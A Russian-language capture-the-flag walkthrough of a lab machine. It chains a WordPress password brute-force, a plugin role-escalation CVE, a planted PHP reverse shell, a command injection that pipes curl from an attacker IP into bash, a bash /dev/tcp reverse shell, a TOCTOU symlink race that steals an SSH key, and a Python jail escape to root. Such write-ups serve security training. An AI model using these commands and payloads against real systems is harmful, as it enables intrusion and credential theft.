# Write-up: Breakme

## Enum

Сканируем цель:

```bash
sudo nmap -sS -sV -sC -p- --min-rate=1000 10.146.139.5
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
```

По умолчанию отдаётся страница Apache:



Перебираем директории:

```bash
gobuster dir -u http://10.146.139.5 \
  -w /usr/share/wordlists/seclist/SecLists/Discovery/Web-Content/big.txt
```

```text
/manual              (Status: 301) [--> http://10.146.139.5/manual/]
/wordpress           (Status: 301) [--> http://10.146.139.5/wordpress/]
/server-status       (Status: 403)
```

## WordPress

Заходим на `/wordpress`:



Сканируем через `wpscan`:

```bash
wpscan --url http://10.146.168.232/wordpress/ -e p,t,u
```

Находим пользователей:

```text
[+] admin
[+] bob
```

И устаревший плагин:

```text
[+] wp-data-access
 | Location: http://10.144.133.55/wordpress/wp-content/plugins/wp-data-access/
 | Version: 5.3.5 (80% confidence)
```

Плагин пригодится позже.

## Брутфорс пароля bob

```bash
hydra -l "bob" -P /usr/share/wordlists/rockyou.txt 10.144.133.55 \
  http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Error" -V
```



```text
bob:soccer
```

Заходим в аккаунт bob.

В комментарии видим упоминание Gravatar:

```text
Hi, this is a comment.
To get started with moderating, editing, and deleting comments, please visit the Comments screen in the dashboard.
Commenter avatars come from Gravatar.
```

 Вспоминаем про уязвимый плагин `wp-data-access`.



## CVE-2023-1874: смена пароля через wpda_role

Уязвимость позволяет изменить роль пользователя при обновлении профиля через параметр `wpda_role`:





Получаем админку:




## RCE через Theme File Editor

Заходим в Theme File Editor:



Переключаемся на любую другую тему:


Открываем `404.php`:



Заливаем туда PHP reverse shell (pentestmonkey):



Нажимаем Update. Триггерим через `curl` или заходим в браузере:

```bash
curl http://10.144.133.55/wordpress/wp-content/themes/twentytwentyone/404.php
```

Получаем шелл:



Стабилизируем TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


## Внутренний сервис на 9999

Смотрим открытые порты:

```bash
ss -lntu
```



Интересует:

```text
tcp LISTEN 0 4096 127.0.0.1:9999 0.0.0.0:*
```

Смотрим, что там:

```bash
curl http://localhost:9999/
```

Это веб-форма с тремя инпутами:

- `cmd1` — проверка IP;
- `cmd2` — проверка пользователя;
- `cmd3` — проверка файла.

Как работает:

```bash
curl -s -X POST http://localhost:9999/ --data 'cmd1=127.0.0.1'
```

## Command Injection → John

Готовим `shell.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.3/4445 0>&1
```

Поднимаем HTTP-сервер:

```bash
sudo python3 -m http.server 7777
```

Отправляем запрос с инъекцией:

```bash
curl -s -X POST http://localhost:9999/ \
  --data 'cmd2=|curl${IFS}http://192.168.192.3:7777/shell.sh|bash'
```

> `${IFS}` — это внутренняя переменная оболочки (Internal Field Separator), по умолчанию содержит пробел/табуляцию/перевод строки. Она нужна здесь, чтобы **обойти фильтры на пробелы** в `cmd2`: `curl${IFS}http://...` превращается в `curl http://...` уже на этапе подстановки переменных, но фильтр видит строку без пробелов.

Получаем шелл под `john`:



`user1.txt`:



## Переход на youcef

Есть пользователь `youcef`:



У него есть SUID-бинарь `readfile`:



## Анализ readfile

Пробуем прочитать `readfile.c` через сам бинарь:

```bash
./readfile readfile.c
# Nice try!
```

Смотрим строки:

```bash
strings readfile
```

Видим:

```text
Usage: ./readfile <FILE>
File Not Found
You can't run this program
flag
id_rsa
Nice try!
I guess you won!
readfile.c
```

То есть бинарь блокирует `flag` и `id_rsa`, и, судя по строкам, умеет их читать. Восстанавливаем логику:

1. Проверка, что в аргументе нет `flag`/`id_rsa` — если есть, отказ.
2. `lstat()` — проверка, что файл не симлинк.
3. `access()` — проверка читаемости.
4. `usleep()` — задержка.
5. `open()` и чтение.

Между проверкой и открытием есть окно — это классическая **TOCTOU-гонка** (Time-of-check to time-of-use).

## Эксплуатация TOCTOU

Скрипт, который бесконечно переключает `loot` между обычным файлом и симлинком на `id_rsa`:

```bash
TARGET="/home/youcef/.ssh/id_rsa"
touch real_loot && chmod 644 real_loot
ln -sf "$TARGET" link_loot
while true; do
  mv -T link_loot loot
  ln -sf "$TARGET" link_loot
  mv -T real_loot loot
  : > real_loot; chmod 644 real_loot
done
```

Скрипт-гонка, который много раз запускает `readfile` и ищет `PRIVATE KEY` в выводе:

```bash
i=0
while true; do
  out=$(/home/youcef/readfile loot 2>/dev/null)
  i=$((i+1))
  if [[ "$out" == *"PRIVATE KEY"* ]]; then
    echo "$out"
    echo "[+] Won after $i attempts"
    break
  fi
done
```

Запускаем:

```bash
chmod +x flip.sh race.sh
./flip.sh & ./race.sh
```

Через несколько десятков итераций получаем приватный ключ:



## Брутфорс пароля от ключа

```bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

Пароль:

```text
a123456
```

Заходим под youcef:

```bash
ssh -i id_rsa youcef@10.144.133.55
```

`user2.txt`:

```bash
find / -name 'user2.txt' 2>/dev/null
cat /home/youcef/.ssh/user2.txt
```

## PrivEsc → root

Проверяем `sudo`:

```bash
sudo -l
```

```text
User youcef may run the following commands on breakme:
    (root) NOPASSWD: /usr/bin/python3 /root/jail.py
```

В `jail.py` много фильтров. Обходим их так:

- `casefold()` переводит строку в нижний регистр — это обходит проверки на `IMPORT`/`OS`/`SYSTEM` в верхнем регистре;
- `yorick` — интерпретатор, который запускает shell (используется как альтернатива `bash`, чтобы обойти фильтр на `bash`).

Payload:

```python
__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')
```



Получаем root и читаем флаг:



## Итоговая схема (Kill Chain)

`WordPress (bob:soccer)` → `Gravatar MD5` → `CVE-2023-1874 (wp-data-access)` → `admin` → `Theme Editor RCE` → `wp-config.php` → `localhost:9999 (command injection)` → `john` → `readfile SUID (TOCTOU)` → `youcef id_rsa (john)` → `sudo jail.py (casefold + yorick)` → `root`
